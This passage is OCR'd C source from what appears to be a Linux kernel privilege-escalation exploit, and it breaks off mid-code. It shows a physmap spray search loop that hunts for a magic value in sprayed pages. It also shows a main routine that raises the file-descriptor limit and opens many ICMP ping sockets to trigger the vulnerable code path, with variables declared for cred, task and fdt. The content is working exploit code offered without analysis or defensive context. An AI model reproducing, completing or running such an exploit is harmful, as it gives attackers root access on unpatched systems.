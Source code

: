 ```
            ts.tv_nsec = rem;
        */
        value = ((uint64_t)time.tv_sec * NSEC_PER_SEC) + time.tv_nsec;
        for(j=0;  j<physmap_spray_pages_count; j++)
        {
            page = physmap_spray_pages[j];
            if(value == *(unsigned long *)((char *)page + 0x1D8))
            {
                printf("[*] magic:%p\n", value);
                got      = 1;
                *payload = page;
                break;
            }
        }
        *index = *index + 1;
    }
    while(!got && *index < MAX_VULTRIG_SOCKS_COUNT);

    if(got == 0)
    {
        return -1;
    }
    else
    {
        return exp_sock;
    }
}



int main() {
	pid_t	  physmap_spray_children[MAX_PHYSMAP_SPRAY_PROCESS];
	int 	  i, ret, j, exp_sock, exp_sock_index;
	unsigned long  data8;
	unsigned int   data4;
	void*     payload;
	void*     cred;
	void*     page;
	void*     task;
	void*     files;
	void*     fdt;

	struct sockaddr addr1 = { .sa_family = AF_INET 	 };
	struct sockaddr addr2 = { .sa_family = AF_UNSPEC };


	if(-1 == maximize_fd_limit())
 	 {
      		perror("[*] maximize socket limit fail");
      		exit(-1);
  	 }

	
	for(i=0; i<MAX_VULTRIG_SOCKS_COUNT; i++)
	{
		vultrig_socks[i] = socket(AF_INET, SOCK_DGRAM, IPPROTO_ICMP);
		if(-1 == vultrig_socks[i])
		{
			perror("[-] create vultrig socket fail.\n");
			exit(-1);
		}

		ret = connect(vultrig_socks[i], &addr1, sizeof(addr1));
```